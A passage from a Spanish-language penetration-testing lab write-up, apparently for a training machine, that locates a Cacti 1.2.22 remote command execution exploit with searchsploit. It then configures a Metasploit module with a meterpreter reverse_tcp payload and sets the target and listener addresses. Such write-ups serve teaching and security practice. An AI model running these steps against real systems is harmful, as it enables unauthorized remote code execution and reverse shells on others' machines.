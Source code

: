En resumen, la función de searchsploit es buscar y listar exploits conocidos y vulnerabilidades en diferentes software y sistemas. En este caso particular, nos ha permitido identificar que la versión del software en la página web es vulnerable a un RCE. Esta información es valiosa para los profesionales de seguridad informática, ya que les permite estar al tanto de las vulnerabilidades existentes y tomar las medidas necesarias para proteger los sistemas afectados.

```javascript
❯ searchsploit cacti 1.2.22
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------     
Cacti v1.2.22 - Remote Command Execution (RCE)                                                                        | php/webapps/51166.py
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Realizamos una búsqueda del exploit correspondiente a la versión de Cacti en Metasploit. 

Esta acción implica utilizar la plataforma Metasploit para buscar y localizar el exploit específico que se dirige a la versión del software Cacti que hemos identificado. Metasploit es un marco de desarrollo de pruebas de penetración que incluye una amplia gama de exploits y herramientas para evaluar la seguridad de sistemas y aplicaciones.

Al buscar el exploit adecuado en Metasploit, podemos aprovechar sus capacidades para llevar a cabo pruebas de penetración controladas y evaluar la efectividad de las medidas de seguridad implementadas en el sistema afectado. Esto permite a los profesionales de seguridad informática comprender las posibles vulnerabilidades y tomar acciones correctivas para mitigar los riesgos asociados.

En resumen, buscar el exploit de la versión de Cacti en Metasploit es un paso importante para evaluar la seguridad de este software en particular y determinar si existen vulnerabilidades conocidas que podrían ser aprovechadas por atacantes malintencionados.

```javascript
msf6 > search cacti

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/cacti_unauthenticated_cmd_injection  2022-12-05       excellent  Yes    Cacti 1.2.22 unauthenticated command injection
   1  exploit/unix/http/cacti_filter_sqli_rce                 2020-06-17       excellent  Yes    Cacti color filter authenticated SQLi to RCE
   2  exploit/unix/webapp/cacti_graphimage_exec               2005-01-15       excellent  No     Cacti graph_view.php Remote Command Execution
   3  exploit/windows/http/hp_sitescope_runomagentcommand     2013-07-29       manual     Yes    HP SiteScope Remote Code Execution

Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/hp_sitescope_runomagentcommand

msf6 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > 
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RHOSTS 10.129.188.45
RHOSTS => 10.129.188.45
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set RPORT 80
RPORT => 80
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set LHOST 10.10.14.155
```